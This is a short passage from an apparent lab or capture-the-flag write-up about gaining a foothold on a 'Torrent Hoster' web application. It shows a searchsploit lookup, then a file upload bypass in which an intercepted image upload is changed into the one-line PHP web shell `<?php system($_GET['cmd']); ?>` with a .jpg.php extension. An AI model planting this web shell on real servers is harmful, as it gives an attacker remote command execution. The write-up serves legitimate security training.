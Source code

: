 ``` bash
┌──(Hades㉿10.10.14.5)-[5.0:20.9]~
└─$ searchsploit torrent hoster
------------------------------------ ---------------------------------
 Exploit Title                      |  Path
------------------------------------ ---------------------------------
Torrent Hoster - Remount Upload     | php/webapps/11746.txt
------------------------------------ ---------------------------------
Shellcodes: No Results
```

## Foothold

### File Upload Bypass

Based on [File Upload Bypass Techniques](https://infinitelogins.com/2020/08/07/file-upload-bypass-techniques/) and exploit `php/webapps/11746.txt`. We can upload an backdoor at `Update Screenshot`

Upload a normal image and intercept the request with Burp Suite. Change the content in the image to `<?php system($_GET['cmd']); ?>` and change the file name extension to `bymeacoffee.jpg.php`

![](images/6.png)

Back to torrent file in the server and get the location of the backdoor.

![](images/7.png)
